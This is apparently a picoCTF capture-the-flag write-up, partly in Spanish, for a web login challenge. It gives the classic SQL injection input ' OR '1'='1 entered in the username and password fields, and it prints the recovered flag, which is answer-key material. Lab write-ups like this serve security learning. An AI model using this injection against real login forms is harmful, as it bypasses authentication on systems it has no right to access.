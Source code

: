  ## Descripcion

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Pistas

There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
Try to think about how the website verifies your login.

## Solución

Utilizamos el injector: ' OR '1'='1 y lo ponemos en user y passwors y listo
``` 
# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```

## Bandera
Flag: picoCTF{s0m3_SQL_fb3fe2ad}

## Notas adicionales


## Referencias
